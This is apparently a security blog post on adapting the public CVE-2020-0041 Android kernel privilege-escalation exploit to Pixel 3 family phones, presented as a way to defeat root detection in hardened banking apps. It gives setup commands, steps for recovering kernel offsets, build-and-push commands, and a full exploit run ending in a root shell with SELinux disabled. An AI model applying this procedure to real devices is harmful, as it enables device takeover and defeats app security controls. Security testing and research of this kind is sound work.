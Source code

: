 +++ 
title = "Bypassing root detection on Pixel 3 devices" 
date = "2022-02-27" 
author = "Joan Calabrés"  
description = "Adapting the CVE-2020-0041 privilege escalation exploit for Pixel 3 family devices in order to bypass root detection." 
+++

There are different root frameworks that can be used on Android in order to obtain root privileges. Usually, during Android application security evaluations, root detection is tested in different ways. Application countermeasures such as root detection are easy to bypass in most of the Android applications and sometimes without the use of reverse engineering techniques; however, as I've been seen during the analysis of banking applications, bypassing root detection on these applications can be hard and time consuming due high obfuscation and countermeasures applied.

A common procedure in the industry is the adaptation of privilege escalation exploits that are not detectable by most of the applications. In this post I will explain how to adapt bluefrostsecurity **CVE-2020-0041** PoC for Pixel 3 to all the Pixel3 family devices. Furthermore, I will provide a a code snipet to obtain a non-limited shell. 

## Requirements

* Download the **CVE-2020-0041** PoC exploit that we will be using for the modifications:

```
git clone https://github.com/bluefrostsecurity/CVE-2020-0041
```

* In order to adapt the exploit for any Pixel 3 device, the specific Pixel 3 vulnerable firmware **(QQ1A.200205.002)** needs to be downloaded from [official website](https://developers.google.com/android/images). A list of the specific devices links can be found below:

    * [Pixel 3 XL](https://dl.google.com/dl/android/aosp/crosshatch-qq1a.200205.002-factory-3e5c17fd.zip)

    * [Pixel 3a XL](https://dl.google.com/dl/android/aosp/bonito-qq1a.200205.002-factory-238bc80e.zip)

    * [Pixel 3a](https://dl.google.com/dl/android/aosp/sargo-qq1a.200205.002-factory-36d5179f.zip)

* Download [abootimg](https://github.com/ggrandou/abootimg) and compile it:

```
git clone https://github.com/ggrandou/abootimg
cd abootimg
make
```

* Download and install [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool using pip3.

```
sudo apt install python3-pip
sudo pip3 install --upgrade lz4 git+https://github.com/marin-m/vmlinux-to-elf
```

* In addition, we will need the **Android NDK** in our path in order to compile the exploit. As an example, I have this on my .zshrc file.

```
export NDK="/home/calabres/NDK"
```

## Procedure

1. First of all we need to extract the compressed kernel image from the boot.img. In order to do that, we will use the already downloaded tool **abootimg**.

```
./abootimg -x [path_to_boot_img]
```

The produced zImage, is an image that contains the compressed Android Kernel. I love kernels.

2. In order to obtain an uncompressed image of the Kernel that contains correct symbols and offsets, use the [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) tool.

```
vmlinux-to-elf [path_to_zImage] [kernel.elf] 
```

3. Use a disassembler of your preference to find the labels related with the exploit offsets found in exploit.c:

```
SELINUX_ENFORCING_OFFSET 
MEMSTART_ADDR_OFFSET 
SYSCTL_TABLE_ROOT_OFFSET
PROC_DOUINTVEC_OFFSET
INIT_TASK_OFFSET
INIT_CRED_OFFSET
OFFSET_PIPE_FOP
```

5) Align exploit.c with correct offsets.

## Testing the exploit

The exploit can be built by simply running "make" with the Android NDK in the path. It can also 
be pushed to a phone attached with adb by doing "make all push" (warnings removed for brevity):

```
user@laptop:~/CVE-2020-0041/lpe$ make all push
Building Android
NDK_PROJECT_PATH=. ndk-build NDK_APPLICATION_MK=./Application.mk
make[1]: Entering directory `/home/user/CVE-2020-0041/lpe'
[arm64-v8a] Compile        : poc <= exploit.c
[arm64-v8a] Compile        : poc <= endpoint.c
[arm64-v8a] Compile        : poc <= pending_node.c
[arm64-v8a] Compile        : poc <= binder.c
[arm64-v8a] Compile        : poc <= log.c
[arm64-v8a] Compile        : poc <= helpers.c
[arm64-v8a] Compile        : poc <= binder_lookup.c
[arm64-v8a] Compile        : poc <= realloc.c
[arm64-v8a] Compile        : poc <= node.c
[arm64-v8a] Executable     : poc
[arm64-v8a] Install        : poc => libs/arm64-v8a/poc
make[1]: Leaving directory `/home/user/CVE-2020-0041/lpe'
adb push libs/arm64-v8a/poc /data/local/tmp/poc
libs/arm64-v8a/poc: 1 file pushed. 4.3 MB/s (39016 bytes in 0.009s)
```

Now just run /data/local/tmp/poc from an adb shell to see the exploit running:

```
blueline:/ $ /data/local/tmp/poc
[+] Mapped 200000
[+] selinux_enforcing before exploit: 1
[+] pipe file: 0xffffffd9c67c7700
[*] file epitem at ffffffda545d7d00
[*] Reallocating content of 'write8_inode' with controlled data.[DONE]
[+] Overwriting 0xffffffd9c67c7720 with 0xffffffda545d7d50...[DONE]
[*] Write done, should have arbitrary read now.
[+] file operations: ffffff97df1af650
[+] kernel base: ffffff97dd280000
[*] Reallocating content of 'write8_selinux' with controlled data.[DONE]
[+] Overwriting 0xffffff97dfe24000 with 0x0...[DONE]
[*] init_cred: ffffff97dfc300a0
[+] memstart_addr: 0xffffffe700000000
[+] First level entry: ceac5003 -> next table at ffffffd9ceac5000
[+] Second level entry: f173c003 -> next table at ffffffd9f173c000
[+] sysctl_table_root = ffffff97dfc5a3f8
[*] Reallocating content of 'write8_sysctl' with controlled data.[DONE]
[+] Overwriting 0xffffffda6da8d868 with 0xffffffda49ced000...[DONE]
[+] Injected sysctl node!
[*] Node write8_inode, pid 7058, kaddr ffffffda0723f900
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_selinux, pid 6848, kaddr ffffffd9c9fa2400
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Node write8_sysctl, pid 7110, kaddr ffffffda67e7d180
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[*] Replaced sendmmsg dangling reference
[+] Cleaned up sendmsg threads
[*] epitem.next = ffffffd9c67c7720
[*] epitem.prev = ffffffd9c67c77d8
^[[*] Launching privileged shell
root_by_cve-2020-0041:/ # id   
uid=0(root) gid=0(root) groups=0(root) context=u:r:kernel:s0
root_by_cve-2020-0041:/ # getenforce
Permissive
root_by_cve-2020-0041:/ # 
```


